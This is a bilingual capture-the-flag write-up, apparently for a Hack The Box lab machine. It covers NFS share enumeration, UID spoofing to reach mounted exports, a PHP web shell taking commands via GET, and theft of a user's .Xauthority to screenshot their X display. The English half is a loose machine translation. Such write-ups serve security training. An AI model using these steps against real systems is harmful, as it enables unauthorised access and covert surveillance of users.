





01-03-2023
Empezamos con nmap para ver los puertos abiertos de la máquina:
nmap -p- --open -T5 -n -Pn 10.10.11.191 -oG openTCPportsStarting Nmap 7.93 ( https://nmap.org ) at 2023-03-21 11:38 CET
Nmap scan report for 10.10.11.191
Host is up (0.046s latency).
Not shown: 62200 closed tcp ports (conn-refused), 3328 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
111/tcp open rpcbind
37295/tcp open unknown
39085/tcp open unknown
40725/tcp open unknown
41253/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 15.93 secondsExtraemos los puertos obtenidos
grePorts [!] Open ports: 22,80,111,37295,39085,40725,41253Ahora ejecutamos un conjunto de scripts de reconocimiento predefinidos por nmap para recopilar información sobre los servicios expuestos en la máquina objetivo.
nmap -p22,80,111,37295,39085,40725,41253 -sVC 10.10.11.191 -oN openTCPservicesPORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
| 256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_ 256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
| 100000 3,4 111/udp6 rpcbind
| 100003 3 2049/udp nfs
| 100003 3 2049/udp6 nfs
| 100003 3,4 2049/tcp nfs
| 100003 3,4 2049/tcp6 nfs
| 100005 1,2,3 33076/udp6 mountd
| 100005 1,2,3 37295/tcp mountd
| 100005 1,2,3 37554/udp mountd
| 100005 1,2,3 48007/tcp6 mountd
| 100021 1,3,4 33429/udp6 nlockmgr
| 100021 1,3,4 34107/tcp6 nlockmgr
| 100021 1,3,4 40725/tcp nlockmgr
| 100021 1,3,4 41020/udp nlockmgr
| 100227 3 2049/tcp nfs_acl
| 100227 3 2049/tcp6 nfs_acl
| 100227 3 2049/udp nfs_acl
|_ 100227 3 2049/udp6 nfs_acl
37295/tcp open mountd 1-3 (RPC #100005)
39085/tcp open mountd 1-3 (RPC #100005)
40725/tcp open nlockmgr 1-4 (RPC #100021)
41253/tcp open mountd 1-3 (RPC #100005)Antes de indigar más en los volúmenes NFS echaremos un vistazo a la página web.
La página web en sí no parece tener mucha información; es la típica página modelo que nos solemos encontrar. Parece que hay una sección de login pero no nos lleva a ningún lado.
Vamos a echarle un vistazo entonces a RPC y en paralelo dejaremos trabajando gobuster para encontrar algún recurso en la web.
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.11.191Listamos los recursos compartidos a nivel de red en el equipo objetivo.
showmount -e 10.10.11.191Export list for 10.10.11.191:
/home/ross *
/var/www/html *Creamos un punto de montaje y montamos el volumen compartido:
mkdir /mnt/ross ; mount -t nfs 10.10.11.191:/home/ross /mnt/rossListamos los recursos del volumen montado:
tree /mnt/ross/mnt/ross
├── Desktop
├── Documents
│ └── Passwords.kdbx
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── VideosNos interesa el archivo con extensión “kdbx” perteneciente al software gestor de contraseñas KeePass.
Lo traemos a nuestro equipo y lanzamos “keepass2john”:
keepass2john Password.kdbx Sin embargo …
! Passwords.kdbx : File version '40000' is currently not supported!Creamos un pequeño script en bash para usar una herramienta cli para encontrar la contraseña por fuerza bruta (disponible en la página de scripts).
La velocidad es muy lenta, aunque se paralelice por lo que me hace pensar que el fichero es un agujero sin salida, puesto ahí para distraer.
Dado que parece que no hay nada de interés en este volumen, montamos el otro volumen, igual que antes:
mkdir /mnt/html ; mount -t nfs 10.10.11.191:/var/www/html /mnt/htmlEn principio no podemos acceder al directorio. Con el comando
ls -l vemos que el dueño es un usuario con uid 2017 por lo
que ejecutamos:
useradd squash -u 2017 -m -s /bin/bash ; sudo -u squash bashPudiendo acceder ya a la carpeta en cuestión, vamos a comprobar con la creación de un fichero de prueba para ver si lo podemos ver.
echo "Hello! This is a test.!" > test.html
Efectivamente podemos acceder al archivo, así que veamos si podemos hacer lo mismo con php.
echo "<pre><?php phpinfo(); ?><pre>" > info.phpY efectivamente:

Con esto ya podemos establecer una web shell que medinte GET obtenga el comando que queramos ejecutar en la máquina objetivo.
<?php
echo "<pre>". shell_exec($_GET["cmd"]) . " </pre>";
?>Una vez ganado el acceso al sistema, nos interesa volver un poco atrás y echar un vistazo al directorio de ross, donde vemos algo que nos puede ser de utilidad para la escalada:


Copiamos el fichero a nuestro usuario actual, para ver si podemos hacer una captura de pantalla.
Si ejecutamos el siguiente comando, veremos que obtenemos que no hay ninguna pantalla disponible:
xdpyinfo -display :0 xdpyinfo: unable to open display ":0".Sin embargo no nos deja descargarlo. Tras investigar un poco parece ser porque no tenemos los permisos suficientes, por lo que nos aprovechamos de la montura nfs y la gestionamos con un usuario cuyo uid sea 1001.
Con el fichero “.Xauthority” en nuestro usuario actual, volvemos a ejecutar el comando anterior y …
xdpyinfo -display :0
name of display: :0
version number: 11.0
vendor string: The X.Org Foundation
vendor release number: 12013000
X.Org version: 1.20.13
maximum request size: 16777212 bytes
motion buffer size: 256
bitmap unit, bit order, padding: 32, LSBFirst, 32
image byte order: LSBFirst
...No olvidemos que hay que darle valor a la variable HOME porque si no no sabrá donde está el fichero.
Hacemos una captura:
xwd -root -screen -silent -display :0 > file.xwdNos la pasamos a nuestro equipo y:

We start with nmap to see the open ports of the machine:
nmap -p- --open -T5 -n -Pn 10.10.11.191 -oG openTCPportsStarting Nmap 7.93 ( https://nmap.org ) at 2023-03-21 11:38 CET
Nmap scan report for 10.10.11.191
Host is up (0.046s latency).
Not shown: 62200 closed tcp ports (conn-refused), 3328 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
111/tcp open rpcbind
37295/tcp open unknown
39085/tcp open unknown
40725/tcp open unknown
41253/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 15.93 secondsWe extract the obtained ports
grePorts [!] Open ports: 22,80,111,37295,39085,40725,41253We now run a set of reconnaissance scripts predefined by nmap to gather information about the services exposed on the target machine.
nmap -p22,80,111,37295,39085,40725,41253 -sVC 10.10.11.191 -oN openTCPservicesPORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
| 256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_ 256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
| 100000 3,4 111/udp6 rpcbind
| 100003 3 2049/udp nfs
| 100003 3 2049/udp6 nfs
| 100003 3,4 2049/tcp nfs
| 100003 3,4 2049/tcp6 nfs
| 100005 1,2,3 33076/udp6 mountd
| 100005 1,2,3 37295/tcp mountd
| 100005 1,2,3 37554/udp mountd
| 100005 1,2,3 48007/tcp6 mountd
| 100021 1,3,4 33429/udp6 nlockmgr
| 100021 1,3,4 34107/tcp6 nlockmgr
| 100021 1,3,4 40725/tcp nlockmgr
| 100021 1,3,4 41020/udp nlockmgr
| 100227 3 2049/tcp nfs_acl
| 100227 3 2049/tcp6 nfs_acl
| 100227 3 2049/udp nfs_acl
|_ 100227 3 2049/udp6 nfs_acl
37295/tcp open mountd 1-3 (RPC #100005)
39085/tcp open mountd 1-3 (RPC #100005)
40725/tcp open nlockmgr 1-4 (RPC #100021)
41253/tcp open mountd 1-3 (RPC #100005)Before we dig deeper into the NFS volumes, let’s take a look at the website.
The web page itself doesn’t seem to have much information; it is the typical model page that we usually find. There seems to be a login section but it doesn’t take us anywhere.
So let’s take a look at RPC and in parallel we’ll leave gobuster working to find some resources on the web.
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.11.191We list the shared resources at the network level on the target computer.
showmount -e 10.10.11.191Export list for 10.10.11.191:
/home/ross *
/var/www/html *We create a mount point and mount the shared volume:
mkdir /mnt/ross ; mount -t nfs 10.10.11.191:/home/ross /mnt/rossWe list the resources of the mounted volume:
tree /mnt/ross/mnt/ross
├── Desktop
├── Documents
│ └── Passwords.kdbx
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── VideosWe are interested in the file with extension “kdbx” belonging to the KeePass password manager software.
We bring it to our computer and launch “keepass2john”:
keepass2john Password.kdbx However …
! Passwords.kdbx : File version '40000' is currently not supported!We created a small bash script to use a cli tool to find the password by brute force (available on the scripts page).
The speed is very slow, even though it freezes so it makes me think that the file is a dead-end hole, put there to distract.
Since there seems to be nothing of interest in this volume, we mount the other volume, just as before:
mkdir /mnt/html ; mount -t nfs 10.10.11.191:/var/www/html /mnt/htmlIn principle we can not access the directory. With the command
ls -l we see that the owner is a user with uid 2017 so we
execute:
useradd squash -u 2017 -m -s /bin/bash ; sudo -u squash bashNow that we can access the folder in question, let’s test by creating a test file to see if we can see it.
echo "Hello! This is a test.!" > test.htmlWe can indeed access the file, so let’s see if we can do the same with php.
echo "<pre><?php phpinfo(); ?><pre>" > info.phpAnd:
With this we can now set up a web shell that will GET the command we want to execute on the target machine.
<?php
echo "<pre>". shell_exec($_GET["cmd"]) . " </pre>";
?>Once we have gained access to the system, we are interested in going back a bit and taking a look at the ross directory, where we see something that may be useful for climbing:
We copy the file to our current user, to see if we can take a screenshot.
If we run the following command, we will see that we get that there is no screen available:
xdpyinfo -display :0 xdpyinfo: unable to open display ":0".However it does not let us download it. After some research it seems that we do not have enough permissions, so we take advantage of the nfs mount and manage it with a user whose uid is 1001.
With the file “.Xauthority” in our current user, we run the previous command again and …
xdpyinfo -display :0
name of display: :0
version number: 11.0
vendor string: The X.Org Foundation
vendor release number: 12013000
X.Org version: 1.20.13
maximum request size: 16777212 bytes
motion buffer size: 256
bitmap unit, bit order, padding: 32, LSBFirst, 32
image byte order: LSBFirst
...Let’s not forget that we have to give value to the variable HOME because if not it will not know where the file is.
We make a capture:
xwd -root -screen -silent -display :0 > file.xwdWe passed it on to our team and: